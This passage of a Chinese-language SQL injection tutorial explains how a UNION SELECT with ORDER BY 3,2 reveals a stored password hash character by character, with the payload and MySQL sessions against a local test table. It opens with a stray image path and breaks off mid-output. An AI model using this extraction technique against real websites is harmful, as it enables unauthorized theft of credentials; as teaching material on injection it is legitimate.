 由于网站联合注入显示的是第二列内容，那么我们就可以通过使用`order by`操作第三列同时改变联合查询第三列的值，来判断网站数据库表中第三列的的存储的真实密码

payload

```
select * from test.test0 union select 1,2,'c' order by 3,2;
```

`order by 3,2`表示先以第三列排序，如果遇到第三列内容完全相同则再使用第二列进行相同行的排序

由于使用第三列进行排序，所以当联合查询中第三列的字符如果小于等于真实的第三列密码字符则会页面会显示字符`2`，否则显示`admin`，下面通过测试用例来查看

```
mysql&gt; select * from test.test0 union select 1,2,'a' order by 3,2; 
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | 2        | a                                |
|  1 | admin    | bfe42ac26e273ef3a859a651e0a02df0 |
+----+----------+----------------------------------+
2 rows in set (0.00 sec)

mysql&gt; select * from test.test0 union select 1,2,'b' order by 3,2; 
+----+----------+----------------------------------+ 
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | 2        | b                                |
|  1 | admin    | bfe42ac26e273ef3a859a651e0a02df0 |
+----+----------+----------------------------------+
2 rows in set (0.00 sec)

mysql&gt; select * from test.test0 union select 1,2,'c' order by 3,2; 
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | bfe42ac26e273ef3a859a651e0a02df0 |
|  1 | 2        | c                                | 
+----+----------+----------------------------------+ 
2 rows in set (0.00 sec)
```

从结果可以验证，通过对第三列进行排序确实可以判断第三列所存储的密码，其真实密码等于页面显示`admin`判定出来的每一个字符减一，下面对中间字符判断测试

```
mysql&gt; select * from test.test0 union select 1,2,'bfe42ac26e26' order by 3,2;
+----+----------+----------------------------------+                         
| id | username | password                         |                         
+----+----------+----------------------------------+                         
|  1 | 2        | bfe42ac26e26                     |                         
|  1 | admin    | bfe42ac26e273ef3a859a651e0a02df0 |                         
+----+----------+----------------------------------+                         
2 rows in set (0.00 sec)                                                     

mysql&gt; select * from test.test0 union select 1,2,'bfe42ac26e27' order by 3,2;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | 2        | bfe42ac26e27                     |
|  1 | admin    | bfe42ac26e273ef3a859a651e0a02df0 |
+----+----------+----------------------------------+
2 rows in set (0.00 sec)

mysql&gt; select * from test.test0 union select 1,2,'bfe42ac26e28' order by 3,2;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | bfe42ac26e273ef3a859a651e0a02df0 |
|  1 | 2        | bfe42ac26e28                     |
```